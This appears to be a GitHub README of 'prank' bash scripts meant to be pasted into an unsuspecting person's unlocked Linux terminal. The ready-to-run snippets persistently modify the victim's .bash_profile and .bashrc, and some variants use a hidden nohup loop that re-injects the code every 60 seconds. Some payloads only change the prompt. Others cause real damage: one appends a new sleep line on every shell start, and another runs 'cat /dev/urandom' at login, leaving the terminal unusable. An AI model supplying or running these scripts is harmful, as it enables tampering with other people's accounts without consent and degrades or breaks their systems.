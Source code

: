 # fun-prank-scripts

## Kill nohup commands
```
pkill -f "bash -c while true;"
```

## rainbow_script
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to make their ps1 very colorful!
This will continue to happen until they remove the added code from the .bash_profile file.
```
cat >> "$HOME/.bash_profile" << 'EOF'
BLOCK_START="# >>> LOCKED PROMPT PRANK START >>>"
BLOCK_END="# <<< LOCKED PROMPT PRANK END <<<"

TARGET="$HOME/.bashrc"

if ! grep -Fq "$BLOCK_START" "$TARGET"; then
  cat >> "$TARGET" << 'BLOCK'
# >>> LOCKED PROMPT PRANK START >>>
random_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt
# <<< LOCKED PROMPT PRANK END <<<
BLOCK
fi
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nrandom_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## sleeping
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to add sleep to their bashrc every time it's run!
This will continue to happen until they remove the added code from the .bash_profile file.

```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
echo sleep 0.$RANDOM >> $HOME/.bashrc
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \necho "sleep 0.$RANDOM" >> $HOME/.bashrc" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## cat_ps1
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
export PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nexport PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## random_chars
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
cat /dev/urandom
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \ncat /dev/urandom" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```
